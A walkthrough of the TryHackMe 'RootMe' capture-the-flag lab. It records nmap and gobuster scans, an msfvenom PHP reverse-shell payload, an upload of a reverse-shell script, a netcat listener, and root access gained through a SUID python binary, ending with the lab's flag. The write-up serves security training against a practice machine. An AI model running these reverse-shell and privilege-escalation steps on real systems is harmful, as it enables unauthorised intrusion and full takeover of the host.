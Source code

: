 #   Tryhackme - rootme
##  Walkthrough by
```
Shaswata Saha
08-07-2023
12:44AM
```
### [Demo](https://infosecwriteups.com/tryhackme-rootme-ctf-walkthrough-detailed-a7c521df7339)

##  IP = 10.10.72.228

##  Steps:

1.  nmap scan
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-07 15:16 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:16
Completed NSE at 15:16, 0.00s elapsed
Initiating NSE at 15:16
Completed NSE at 15:16, 0.00s elapsed
Initiating NSE at 15:16
Completed NSE at 15:16, 0.00s elapsed
Initiating Ping Scan at 15:16
Scanning 10.10.72.228 [2 ports]
Completed Ping Scan at 15:16, 0.32s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:16
Completed Parallel DNS resolution of 1 host. at 15:16, 0.33s elapsed
Initiating Connect Scan at 15:16
Scanning 10.10.72.228 [1000 ports]
Discovered open port 22/tcp on 10.10.72.228
Discovered open port 80/tcp on 10.10.72.228
Increasing send delay for 10.10.72.228 from 0 to 5 due to max_successful_tryno increase to 4
Increasing send delay for 10.10.72.228 from 5 to 10 due to max_successful_tryno increase to 5
Increasing send delay for 10.10.72.228 from 10 to 20 due to 11 out of 13 dropped probes since last increase.
Increasing send delay for 10.10.72.228 from 20 to 40 due to 11 out of 21 dropped probes since last increase.
Completed Connect Scan at 15:17, 54.13s elapsed (1000 total ports)
Initiating Service scan at 15:17
Scanning 2 services on 10.10.72.228
Completed Service scan at 15:17, 6.57s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.72.228.
Initiating NSE at 15:17
Completed NSE at 15:17, 9.51s elapsed
Initiating NSE at 15:17
Completed NSE at 15:17, 0.85s elapsed
Initiating NSE at 15:17
Completed NSE at 15:17, 0.00s elapsed
Nmap scan report for 10.10.72.228
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 15:17
Completed NSE at 15:17, 0.00s elapsed
Initiating NSE at 15:17
Completed NSE at 15:17, 0.00s elapsed
Initiating NSE at 15:17
Completed NSE at 15:17, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.44 seconds

```

2.  gobuster scan
```bash
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.72.228
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                Documents/gobuster-wordlist/dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/07 15:17:18 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.72.228/js/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.72.228/css/]
/.htaccess            (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.72.228/uploads/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.72.228/panel/]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
Progress: 1735 / 1829 (94.86%)[ERROR] 2023/07/07 15:18:04 [!] Get "http://10.10.72.228/player.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 1825 / 1829 (99.78%)
===============================================================
2023/07/07 15:18:07 Finished
===============================================================

```

4.  We find the /panel/ to be vulnerable

5.  We find a shell. Now we want to escalate privileges:
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.17.28.202 LPORT=4444 -f raw > shell.php
```
Cannot upload..!

6.  We can upload a file in the /panel/ directory.

For this task we will upload php reverse shell script. I frequently use pentestmonkey php-reverse-shell.php script to try to gain a reverse shell using netcat.
Git Link to download the script or clone in terminal : https://github.com/pentestmonkey/php-reverse-shell

7.  Open the script in editor and change the $ip and $port to your host machine’s IP and port you want to listen on.

8.  Listen on netcat
```bash
──(subhro1530㉿subhro)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...

```

9.  Go to <IP>/uploads/. Here you will find the uploaded reverse shell file. Click on it and the netcat will open up a shell.

10. Get the user.txt file:
```bash
find / -type f -name user.txt
```

11. We find it to be inside /var/www/user.txt. Cat that..!

12. Now for privilege escalation, stabilizze the shell using python:
```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

We get the perfect terminal:

```bash
bash-4.4$ 
```

13. To look for the files with SUID permission we can use the command:
```bash
find / -type f -user root -perm -4000 2>/dev/null
```
We find the _/usr/bin/python_ to have SUID permission. It can be accessed as root.
This is suspicious..!

14. Gain access of root:
[link](https://gtfobins.github.io/gtfobins/python/)
```bash
python -c "import os; os.execl('/bin/sh', 'sh', '-p')"
```
We are root..!!

15. 
```bash
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

We hacked the IP...!